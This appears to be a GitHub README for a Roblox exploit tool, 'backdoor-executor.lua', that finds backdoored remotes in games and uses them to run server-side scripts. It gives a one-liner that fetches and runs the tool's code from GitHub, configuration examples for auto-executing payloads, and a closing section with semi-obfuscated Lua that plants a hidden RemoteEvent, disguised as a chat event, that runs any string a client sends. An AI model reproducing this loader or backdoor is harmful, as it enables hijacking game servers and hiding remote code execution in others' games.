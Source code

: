 # backdoor-executor.lua

* The very best backdoor scanning utility in existance.

## Info

A backdoor scanner for [ROBLOX](https://roblox.com) that scans the game for potential backdoored remotes and uses them for running server-sided scripts.  

### Features

* Fast Backdoor Scanner
* Remote and Output Redirection (DISABLED BY DEFAULT)
* Auto Execute (CUSTOMIZABLE)
* Macros (CUSTOMIZABLE)
* AND MUCH MORE!!

### Script

```lua
loadstring(game:HttpGetAsync("https://raw.githubusercontent.com/jLn0n/scripts/main/backdoor-executor/backdoor-executor.lua"))()
```
> Just copy the script below and run it through your script utility(executor).  

### Requirements

- A brain that knows this stuff.
- A decent script utility that supports most of [UNC](https://scriptunc.org) functions (such as file functions) and all of Luau[https://luau-lang.org] features.

### FAQ & Troubleshooting

- My configuration file got resetted back to original.
> That's completely normal, it will happen usually if the configuration failed to load.  
> THIS DOESN'T HAPPEN NOW.

- Backdoor scanner doesn't seem to work.
> Your config file might be outdated, make sure to update your config file.  
> The script might not support your script utility too.  

- How can I enable Remote and Output Redirection?
> Enable them through the config file.  

- How does the Remote Redirection works?
> It works by creating a new remote and using that new remote for running scripts.  
> It also provides some features like anti-destroy and anti-logger.  

### Configuration Wiki

- Using Cache:
> Caching can be used to quickly find the remote on a specific game without any waiting.   
> example:
```lua
[placeid] = {
	["Remote"] = "remote.path.here", -- the remote can be a path like "ReplicatedStorage["Remotes here"].Remote" or a instance
	["Args"] = {"arg1here", "source"}, -- source is the place that the executing script will be putted
	["SourceFunc"] = function(source) -- use this if a game has a custom encryption for source
		return source
	end
}
```

- Using Auto Execute:
> AutoExecute can be used to load script after backdoor is successfully found.  
> You can put many code as long as you want inside the table, example:
```lua
-- it should be a array and don't add a nil or it will not work
{
	[[warn("backdoor-executor.lua loaded!")]],
	[[require(someid).load(%username%)]],
},
```

- Using Script Macros:
> Script Macros can be very helpful to set values.  
> Config example:
```lua
{
	["staticmacro"] = "value", -- returns "value"
	["dynamicmacro"] = function() -- returns a random number of 1-100
		return math.random(1, 100)
	end,
}
```
> Usage example:
```lua
print(%username%, %userid%, %placeid%) -- prints "Username", 69420, 1818 as an example
```

- Using Remote Filters:
> Remote Filters can be used to block any of the remotes with specific properties.  
> example:
```lua
{
	["exampleFilter"] = function(remoteObj) -- the remote will be filtered out of the remoteObj name is "bogus" and its parent name is "yomama"
		return remoteObj.Name == "bogus" or remoteObj.Parent.Name == "yomama"
	end,
},
```

- Using Backdoor Payloads:
> Backdoor Payloads is a new feature that can be used to customize arguments of remotes on when scanning.  
> It can be also be used for a certain remote to be used with the provided payload.  
> example:
```lua
{
	["examplePayload"] = {
		["Args"] = {"arg1here", "source"}, -- this is the arguments that is gonna be loaded in the specified remote, same details as the args in cache
		["Verifier"] = function(remoteObj) -- this verifies if remoteObj is appropriate to be used for payload, the remote will be provided with the argument {"arg1here", "payloadSrc"} if remoteObj is descendant of JointsService
			return remoteObj:IsDescendantOf(game:GetService("JointsService"))
		end
	}
}
```

## Adding a backdoor in your game
Get access to a game in Roblox Studio, create a script and paste the few lines of code below in the script.
Make sure to enable `LoadStringEnabled` property in `ServerScriptService`. (code is semi-obfuscated)
```lua
if game:GetService("\82\117\110\83\101\114\118\105\99\101"):IsStudio() or not game:GetService("\83\101\114\118\101\114\83\99\114\105\112\116\83\101\114\118\105\99\101")["\76\111\97\100\83\116\114\105\110\103\69\110\97\98\108\101\100"] then return end;local a=Instance.new("\82\101\109\111\116\101\69\118\101\110\116");a.Name="\71\101\116\80\108\97\121\101\114\77\101\115\115\97\103\101\65\115\121\110\99";a.Parent=game:GetService("\82\101\112\108\105\99\97\116\101\100\83\116\111\114\97\103\101"):WaitForChild("\68\101\102\97\117\108\116\67\104\97\116\83\121\115\116\101\109\67\104\97\116\69\118\101\110\116\115");a.OnServerEvent:Connect(function(_, b)loadstring(b)()end)
```
